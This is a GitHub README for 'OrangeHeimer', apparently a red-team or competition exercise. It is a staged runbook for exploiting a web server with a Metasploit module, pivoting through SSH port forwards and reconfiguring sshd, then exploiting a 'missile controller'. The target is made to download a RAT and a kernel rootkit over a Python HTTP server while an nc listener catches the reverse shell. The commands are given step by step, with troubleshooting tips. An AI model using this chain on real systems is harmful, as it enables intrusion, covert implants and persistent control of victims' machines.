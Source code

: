 # OrangeHeimer
## Network Diagram
![OrangeHeimerNetwerk](https://github.com/user-attachments/assets/d6b00e75-2c73-411a-b7a7-92f11a9e2214)
## Stage 1: Oranco Mining Web Server Exploitation
### Objective
Exploit web server and set up connection to internal relay SSH
### Files:
- orangeland.py
- stage1.rc
### IPs and Ports:
All can be customized in stage1.rc file
- thrower box 10.0.1.21:4444
- oranco Web 10.0.1.1:8443
- thrower SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
### How to Run:
- run "chmod +x orangeland.py"
- move orangeland.py into metasploit-framework/embedded/framework/modules/exploits/unix/webapp/
- run "msfconsole -r stage1.rc" -- this may need to be run with sudo depending on computer configs
### Possible Failures and Solutions:
Orangeland.py has been tested on multiple ops and should work, if it doesn’t, then verbally harass the analysts.  
If portfwd fails:
- verify that the SSH server is running at the IP and port as indicated, if they are different, re run the portfwd command with -p <SSH_PORT> -r <SSH_IP>
- run "shell" in meterpreter, upgrade using "python3 -c 'import pty; pty.spawn("/bin/bash")'", and verify that the SSH credentials work
- run the portfwd command with a different thrower port using -l <THROW_PORT> Note, this means that all future SSH commands cannot use sshpass and must use -p <THROW_PORT>  
## Stage 2: Setting up Network Communication
### Objective
Set up direct communication between orangeland and device controller using SSH port forwarding
### Files:
- stage2.sh
### IPs and Ports
Can be customized by editing stage2.sh
- thorwer SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run:
- execute and verify stage 1
- run "./stage2.sh"
- verify success by opening http://localhost:4200 in a web browser, this should return a "Forbidden" page
### Possible Failures and Solutions:
If you cannot SSH into localhost:
- run shell in meterpreter
- upgrade using python3 -c 'import pty; pty.spawn("/bin/bash")'
- SSH into the server with ssh -Nf missileadmin@172.31.81.221
- run SSH reconfiguration commands and verify success
- execute port forwarding commands, using 10.0.1.1 instead of 127.0.0.1
  
If an error occurs in the reconfiguration of the SSH server:
- SSH into the server from localhost
- Check if /etc/ssh/sshd_config has 'GatewayPorts yes' in its last line, if not then sudo su and add it
- Restart ssh service, this can be done with "service ssh restart" or "systemctl restart ssh"
- Continue with normal port forwarding commands

If the commands execute normally, but no response is received from http://localhost:4200
- SSH into the server from localhost
- Run "netstat -plant", check if the output contains a TCP listener on 0.0.0.0:4242
- If the netstat does contain the TCP listener, it indicates that the mastersockets works. Verify that the controller is up and has the correct IP address with the analysts. Then attempt to rerun the first mastersockets command.
- If the netstat has the TCP listener on 127.0.0.1 instead of 0.0.0.0, then the server is not configured properly. Go through the confiugration remediation steps.
- If the netstat has no TCP listener on port 4242, or netstat -plant on the thrower has no open TCP listener on 0.0.0.0:4200, then it is a problem with SSH port forwarding. SSH into the server and determine the issue.  
## Stage 3: Exploiting the Missile Controller
### Files
- orangeRodent
- stage3.py
- dolos_rootkit.ko
### IPs and Ports
Can be edited through changing orangeRodent.c and re-cross-compiling and by editing stage3.py
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run
- execute and verify stages 1 and 2
- run "python3 -m http.server 4201" in a directory with the orangeRodent and dolos_rootkit.ko to serve the controller the implant 
- run "nc -lv 4202" in a separate terminal to listen for the rat
- run "python3 stage3.py" to throw the exploit
### Possible Failures and Solutions:
If there is no request made to wget:
- Cry
- Verify that the ssh server has proper port forward to thrower box
- Ask the "man on the inside" to examine what is going wrong on the controller
  
If there is a request to wget, but the netcat listener never catches the rat:
- This indicates a problem with the rat
- Run the exploit using the telnet reverse shell which is currently comment out
- Peep around to see what could be wrong
  
If the netcat listener receives the rat, but the rootkit is not up:
- Use rat to examine what is wrong with rootkit
- Fix and recompile the rootkit
- Use rat to send over and install rootkit

